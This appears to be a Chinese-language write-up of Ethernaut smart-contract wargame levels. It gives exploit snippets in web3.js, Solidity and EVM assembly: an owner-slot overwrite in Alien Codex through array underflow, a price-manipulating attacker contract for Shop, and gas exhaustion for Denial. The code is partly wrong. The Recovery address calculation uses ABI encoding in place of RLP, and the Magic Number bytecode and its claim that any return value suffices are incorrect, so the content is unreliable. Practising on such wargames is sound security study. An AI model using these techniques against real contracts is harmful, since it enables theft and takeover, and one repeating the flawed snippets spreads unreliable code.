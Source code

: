思路：
找回地址即可：
```js
const recoveryAddress = "RECOVERY_CONTRACT_ADDRESS"; // 替换为实际地址
const nonce = 1; // Recovery 合约的 nonce，假设这是它的第一次部署
const tokenAddress = web3.utils.toChecksumAddress(
  "0x" + web3.utils.keccak256(web3.eth.abi.encodeParameters(
    ["address", "uint256"],
    [recoveryAddress, nonce]
  )).slice(26)
);

console.log("Token Address:", tokenAddress);
```

## 18. Magic Number ✅ [Easy]

这关考察的是极简合约的构造以及如何通过 EVM 字节码直接部署合约:
这个关卡的核心目标是部署一个符合以下条件的合约：

代码总长度不超过 10 字节。
返回任意有效的结果（不一定是 42）。
```assembly
PUSH1 0xff   // 推送值 255
PUSH1 0x00   // 返回数据的存储位置
RETURN
```

## 19. Alien Codex ✅ [Medium]

思路很简单：利用codex.length--使下标溢出然后ethereum会认为此时的codex分布在整个2^256-1的slot中（Ethereum 认为数组 codex 的元素范围扩展到整个存储的所有槽位 (0 ~ 2^256-1)）此时我们计算出slot0（Owner）的索引i，然后修改存储在slot的owner
实现很复杂：
```js
// 计算目标索引
const hash1 = web3.utils.keccak256(web3.eth.abi.encodeParameter("uint256", 1));
const targetIndex = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(hash1));
// 修改 slot 0
const attackerBytes32 = web3.utils.padLeft(attacker, 64); // 将攻击者地址转换为 bytes32
alienCodex.methods.revise(targetIndex.toString(), attackerBytes32).send({ from: attacker });
```

## 20. Denial ✅ [Easy]

很简单，还是使用call的漏洞，消耗大量gas就行，或者直接把钱全盗出来

## 21. Shop ✅ [Easy]

主要就是攻击者的逻辑：
```solidity
 function price() external view override returns (uint256) {
        // 根据 isSold 状态返回不同的价格
        return shop.isSold() ? 0 : 100;
    }
```
